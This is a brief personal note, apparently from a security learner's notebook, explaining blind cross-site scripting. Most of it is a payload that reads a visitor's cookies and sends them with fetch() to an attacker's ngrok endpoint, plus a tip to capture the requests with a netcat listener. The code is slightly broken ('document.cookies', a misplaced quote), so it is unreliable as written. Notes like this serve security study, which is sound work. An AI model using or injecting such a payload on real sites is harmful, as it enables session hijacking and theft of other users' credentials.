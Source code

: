 ## Blind XSS 
Blind xss is when we are able to execute javascript in another persons browser via data that we control, but may not be able to see. Similar to Stored.

Payload to receive information back. 
```
<script> 
var cookies = document.cookies

fetch('http://'<URL/NGROK ENDPOINT/?'+ cookies)
</script>
```


You can use ngrok to forward a nc listener to capture these requests.
[[ngrok]]